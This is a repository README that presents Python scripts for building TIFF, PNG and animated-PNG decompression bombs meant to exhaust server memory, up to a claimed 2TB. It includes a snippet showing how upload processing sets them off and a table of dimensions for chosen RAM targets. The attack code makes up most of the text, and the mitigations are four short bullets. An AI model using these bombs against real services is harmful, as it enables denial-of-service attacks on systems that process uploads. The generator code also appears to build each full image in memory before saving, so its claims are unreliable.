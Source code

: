 
# 🧨 Image Decompression Bombs in Python

This repository demonstrates how to create **image decompression bombs** using Python in formats:
- TIFF
- PNG
- APNG (Animated PNG)

These bombs are designed to be **tiny on disk** but expand to consume **massive RAM** (up to 2TB+) when opened, often causing memory exhaustion or crashes in image-processing systems.

> ⚠️ **For educational and research purposes only!** Do not deploy these files in production or upload to services without explicit permission.

---

## 📦 How It Works

Image formats like PNG and TIFF use lossless compression. You can craft images that look small (e.g., 1MB), but when decompressed occupy hundreds of GBs or more in memory.

### ✅ Strategy:
- Use solid-color pixels (e.g., white)
- Extreme resolution (e.g., 855,000×855,000)
- Save with maximum compression (`compress_level=9`, `tiff_deflate`)
- Optional: Use formats with multiple frames (e.g., APNG)

---

## 🧰 Requirements

Install dependencies:

```bash
pip install pillow apng
```

---

## 💣 Create a 2TB TIFF Bomb

```python
from PIL import Image, TiffImagePlugin

width = height = 855000
img = Image.new('RGB', (width, height), color='white')

img.save(
    'tiff_bomb_2tb.tiff',
    compression='tiff_deflate',
    tiffinfo={TiffImagePlugin.STRIPOFFSETS: (1,)}
)
```

---

## 💣 Create a 2TB PNG Bomb

```python
from PIL import Image

width = height = 855000
img = Image.new('RGB', (width, height), color='white')
img.save('png_bomb_2tb.png', compress_level=9)
```

---

## 🌀 Create an APNG Bomb (Multi-frame)

```python
from apng import APNG
from PIL import Image
import os

frames = 10
width = height = 150000
frame_paths = []

for i in range(frames):
    frame = Image.new('RGB', (width, height), color='white')
    path = f'frame_{i}.png'
    frame.save(path, compress_level=9, optimize=True)
    frame_paths.append(path)

apng = APNG()
for path in frame_paths:
    apng.append_file(path, delay=100)
apng.save("apng_bomb.png")

for path in frame_paths:
    os.remove(path)
```

---

## 🧪 Auto-Decompression (Server-Side Trigger)

Servers that auto-process uploads (e.g., preview thumbnails, resizing) will often **trigger decompression automatically**, leading to crash:

```python
from PIL import Image

img = Image.open("png_bomb_2tb.png")
img.load()
```

---

## 📊 Safe Size Reference Table

| RAM Target | Approx Dimensions | Uncompressed RAM |
|------------|-------------------|------------------|
| 100MB      | 5912 x 5912       | 0.10 GB          |
| 200MB      | 8360 x 8360       | 0.20 GB          |
| 400MB      | 11824 x 11824     | 0.39 GB          |
| 800MB      | 16721 x 16721     | 0.78 GB          |
| 1.6GB      | 23930 x 23930     | 1.60 GB          |
| 3.2GB      | 33839 x 33839     | 3.20 GB          |
| 6.4GB      | 47871 x 47871     | 6.40 GB          |
| 12.8GB     | 67679 x 67679     | 12.80 GB         |
| 25.6GB     | 95700 x 95700     | 25.60 GB         |
| 51.2GB     | 135402 x 135402   | 51.20 GB         |
| 96.0GB     | 180598 x 180598   | 96.00 GB         |
| 1.0TB+     | 605396 x 605396   | ~1.0 TB          |
| 2.0TB+     | 855000 x 855000   | ~2.0 TB          |

---

## 🔒 Mitigation Strategies

- Check resolution: `if img.width * img.height > X`
- Limit file uploads by pixel count
- Open files in sandboxed environments
- Disable thumbnail generation for untrusted images

---

## 🧠 Educational Use Only

These examples are meant to raise awareness of hidden attack vectors in media processing. Use responsibly.

---

## 📄 License

MIT License
